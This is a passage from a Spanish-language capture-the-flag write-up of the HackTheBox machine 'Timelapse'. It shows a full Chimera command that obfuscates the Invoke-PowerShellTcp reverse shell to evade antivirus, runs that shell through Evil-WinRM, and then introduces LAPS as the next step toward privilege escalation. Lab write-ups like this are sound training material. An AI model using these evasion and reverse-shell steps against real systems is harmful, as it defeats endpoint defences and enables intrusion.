 ```powershell
$p1 = "pa"
$p2 = "ylo"
$p3 = "ad"

$f1 = $p1$p2$p3
```

Obviamente, hace muchos más procesos, pues probemos a ofuscar el contenido de nuestro objeto a ver si ese logra bypassear el antivirus. Nos clonamos el repo y con ayuda de "la ayuda" de como usarlo:

* [https://github.com/tokyoneon/Chimera#usage](https://github.com/tokyoneon/Chimera#usage)

Generamos el nuevo archivo llamado `new_invoke_shell.ps1`:

```bash
❱ ./chimera/chimera.sh -f Invoke-PowerShellTcp.ps1 -l 3 -o new_invoke_shell.ps1 -v -t powershell,windows,copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,invoke-expression,out-string,write-error -j -g -k -r -p
```

> Ejecutando `./chimera.sh` puedes ver que hace cada parametro agregado :P

Y se vería algo así:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/timelapse/452bash_chimera_ofuscatedInvokePowerShellTcp.png" style="width: 100%;"/>

khe khe :P, pues si, eso es ofuscamiento (:

Subimos ese archivo al sistema yyy lo ejecutamos a ver si con él tenemos éxito:

```powershell
*Evil-WinRM* PS C:\> invoke-c... -scriptblock { ./new_invoke_shell.ps1.ps1 }
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/timelapse/452bash_svcDeploy_RevPS_DONE.png" style="width: 100%;"/>

EEEEEEPA, ahora si logramos la **PowerShell** y podemos ejecutar comandos cómodamente! A seguir jugando...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Volviendo a las andanzas, retomamos el temita de `LAPS`, ahora si toma sentido por una sencilla razón al enumerar un poquito la información del usuario `svc_deploy`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/timelapse/452windows_svcDeploy_netUser_LAPSreadersGROUP.png" style="width: 100%;"/>

El usuario `svc_deploy` está en un grupo llamado `LAPS Readers`, jmmmmmm, pero para que esto también tome sentido necesitamos saber que es eso de **LAPS**:

> Según lo leido en este [post](https://itconnect.uw.edu/wares/msinf/ous/laps/), **Local Administrator Password Solution (LAPS)** es un producto de Microsoft usado para gestionar la **contraseña** del usuario administrador, la finalidad es mantener la password en constante actualización. Esta guardada en el [directorio activo](https://www.quest.com/mx-es/solutions/active-directory/what-is-active-directory.aspx) y protegida por [listas de acceso (ACL)](https://www.techtarget.com/searchnetworking/definition/access-control-list-ACL), por lo que ***<u>solo usuarios especificos</u>*** pueden leerla e incluso pedir que sea actualizada :o
